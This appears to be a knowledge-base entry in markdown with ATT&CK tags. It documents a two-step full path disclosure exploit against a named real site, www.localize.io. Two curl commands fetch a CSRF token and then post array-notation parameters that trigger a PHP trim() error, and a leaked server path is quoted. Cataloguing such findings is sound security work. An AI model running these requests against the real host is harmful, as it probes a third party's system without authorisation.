

---
tags:
  - fpd
  - information-disclosure
  - php
  - web-vulnerability
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
  - PHP
submitted: true
complexity: low
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Trigger-FPD-with-Array-Parameter-Manipulation]]'
step_count: 2
techniques:
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T17:26:06.233Z'
description: >-
  Exploit a PHP vulnerability in the project creation endpoint of
  www.localize.io by manipulating POST parameters to trigger a trim() error on
  arrays, disclosing the full server file path.
skill_level: beginner
impact_level: medium
id: e42a2e27-c407-4b8b-990c-d0287ac3c636
validated: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# Full Path Disclosure via Array Parameter Manipulation in Localize.io Project Creation

Multi-stage attack chain demonstrating exploitation of a Full Path Disclosure vulnerability in the www.localize.io application through improper handling of array parameters in POST requests.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~2 minutes |
| Skill Level | Beginner |
| Complexity | Low |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]

### Target Environment

- Web application running PHP
- Access to the project creation endpoint at http://www.localize.io/pages/create_project/
- Valid CSRF token from the application

### Initial Access Requirements

- Public network access to the target web app
- No authentication required for initial page access
- Knowledge of a valid project ID (e.g., 72) and default language ID (e.g., 1)

## Detailed Attack Procedures

### Step 1: Access the Project Creation Page
procedure: [[procedures/Trigger-FPD-with-Array-Parameter-Manipulation]]

**Objective**: Retrieve the project creation form and obtain necessary tokens like CSRF for the subsequent request.

**Instructions**: Send a GET request to the project creation endpoint, appending a project ID to load the form.

Use [[commands/curl-get-project-creation]] to fetch the page:

```bash
curl -X GET "http://www.localize.io/pages/create_project/72" -o project_form.html
```

Inspect the response for the CSRF token value.

**Expected Output**: HTML form containing CSRFToken and other form fields.

**Success Indicators**:
- HTTP 200 response
- CSRF token extracted from HTML

### Step 2: Submit Manipulated POST Request
procedure: [[procedures/Trigger-FPD-with-Array-Parameter-Manipulation]]

**Objective**: Manipulate form parameters by appending '[]' to force PHP to interpret them as arrays, triggering a trim() error that discloses the server path.

**Instructions**: Craft a POST request with array notation on specific parameters like create_project[name] and create_project[editRepositoryID]. Replace TOKEN VALUE with the extracted CSRF token.

Execute [[commands/curl-post-fpd-trigger]] to submit the manipulated request:

```bash
curl -X POST "http://www.localize.io/pages/create_project/72" \
  -d "CSRFToken=TOKEN VALUE" \
  -d "create_project[visibility]=1" \
  -d "create_project[name][]=My+Android" \
  -d "create_project[defaultLanguage]=1" \
  -d "create_project[editRepositoryID][]=72"
```

**Expected Output**: PHP warning in response revealing the full path, e.g., "/var/www/vhosts/lvps178-77-99-228.dedicated.hosteurope.de/httpdocs_localize/classes/UI.php".

**Success Indicators**:
- Error message containing absolute file path
- Confirmation of array handling failure in PHP

## Attack Chain Summary

### Key Achievements

1. Successful access to the vulnerable endpoint without authentication.
2. Triggered information disclosure of the server's internal filesystem path.
3. Demonstrated potential for further reconnaissance or exploitation based on path knowledge.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
